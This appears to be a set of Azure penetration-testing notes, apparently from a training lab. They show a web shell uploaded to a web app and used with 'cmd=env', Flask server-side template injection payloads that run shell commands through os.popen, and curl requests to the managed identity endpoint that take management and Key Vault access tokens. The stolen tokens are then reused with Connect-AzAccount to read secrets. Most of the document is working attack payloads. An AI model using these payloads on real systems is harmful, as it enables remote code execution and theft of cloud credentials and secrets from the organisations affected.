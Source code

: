 ```
Example upload:
```
https://defcorphqcareer.azurewebsites.net/
https://defcorphqcareer.azurewebsites.net/uploads/studentxshell.phtml?cmd=env
```

append:
```
/uploads/studentxshell.phtml?cmd=env
```

For tokens browse to:
```
/uploads/studentxtoken.phtml
```

Now we can reuse that token to launch a session:

```"client_id":``` ==  ```-AccountId```

```
Connect-AzAccount -AccessToken $Token -AccountId <client_id>
```
## Server-Side Template Injection
OR FOR SSTI:


```{{config.items()}}```
We know this app is running flask (from }config.items()} injection)

Therefore we can just use the popen call from the os module:
```
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
{{config.__class__.__init__.__globals__['os'].popen('env').read()}}
```

ENV will give us the ```Identity Header``` which is the ClientID and the ```Identity Endpoint``` - copy these down to notepad!!

Now Let's request the access token for the managed identity now using the following code:
```
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}
```
- IF THERE IS A **KEYVAULT** RESOURCE:
```
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}
```

Now we can reuse the token:

```
Connect-AzAccount -AccessToken $Token -AccountId <IDENTITY_HEADER>
```

- And if there is also a _keyvault_ logon with that key also to be able to read the secrets:
```
PS C:\AzAD\Tools> $Token = 'eyJ0..'
PS C:\AzAD\Tools> $keyvaulttoken = 'eyJ0..'
```

```
Connect-AzAccount -AccessToken $Token -AccountId <IDENTITY_HEADER> -KeyVaultAccessToken $keyvaulttoken
```
## Command Injection
```